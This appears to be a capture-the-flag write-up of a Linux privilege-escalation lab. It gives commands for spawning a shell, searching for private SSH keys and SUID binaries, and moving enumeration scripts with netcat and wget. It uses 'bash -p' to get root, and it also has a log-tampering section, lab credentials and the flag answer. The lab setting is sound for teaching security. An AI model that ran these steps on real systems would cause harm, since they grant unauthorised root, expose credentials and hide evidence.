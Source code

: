 ```yaml
---
description: Networking - Priv Esc
---
```


# The Rogue Gnome

## Video

{% embed url="https://www.youtube.com/watch?v=\_SMxZPne5QU" %}

## Resources

[DVWA \(Damn Vulnerable Web App\)](http://www.dvwa.co.uk/)

`whoami` name of the account

`echo $0`  our shell

`python -c 'import pty; pty.spawn("/bin/bash")'`  spawn another shell and make it interactive

We're using `find` to search the volume, by specifying the root \(`/`\) to search for files named "id\_rsa" which is the name for _private_ SSH keys, and then using `2> /dev/null` to only show matches to us.

`find / -name id_rsa 2> /dev/null`

### The "Priv Esc Checklist"

1. Determining the kernel of the machine \(kernel exploitation such as Dirtyc0w\)
2. Locating other services running or applications installed that may be abusable \(SUID & out of date software\)
3. Looking for automated scripts like backup scripts \(exploiting crontabs\)
4. Credentials \(user accounts, application config files..\)
5. Mis-configured file and directory permissions

### Cheatsheets

* [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)
* [payatu](https://payatu.com/guide-linux-privilege-escalation)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation)

### SUID 101

 [GTFOBins](https://gtfobins.github.io/)

`find / -perm -u=s -type f 2>/dev/null`

### Enumeration Scripts

[LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

### Transfer Scripts

`python3 -m http.server 8080`

`nc -l -p 1337 > LinEnum.sh`    `nc -w -3 10.10.6.64 1337 < LinEnum.sh`

### Covering our Tracks

* "/var/log/auth.log" \(Attempted logins for SSH, changes too or logging in as system users:\)
* "/var/log/syslog" \(System events such as firewall alerts:\)
* "/var/log/&lt;service/" -- /var/log/apache2/access.log"

## Challenge

What type of privilege escalation involves using a user account to execute commands as an administrator?

{% hint style="success" %}
vertical
{% endhint %}

What is the name of the file that contains a list of users who are a part of the `sudo` group?

{% hint style="success" %}
sudoers
{% endhint %}

Use SSH to log in to the vulnerable machine like so: `ssh cmnatic@10.10.6.64`

 Input the following password when prompted: **aoc2020**

![](../.gitbook/assets/image%20%2830%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of [GTFObins](https://gtfobins.github.io/) and your researching skills to learn how to exploit this binary.

You may find uploading some of the enumeration scripts that were used during today's task to be useful.

```text
wget 10.14.4.204:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

![](../.gitbook/assets/image%20%2824%29.png)

![](../.gitbook/assets/image%20%2818%29.png)

> https://gtfobins.github.io/gtfobins/bash/

```text
bash -p
```

![](../.gitbook/assets/image%20%2839%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

Use this executable to launch a system shell as root.  
  
What are the contents of the file located at **/root/flag.txt**?

```text
cat /root/flag.txt
```

![](../.gitbook/assets/image%20%2868%29.png)

{% hint style="success" %}
thm{2fb10afe933296592}
{% endhint %}

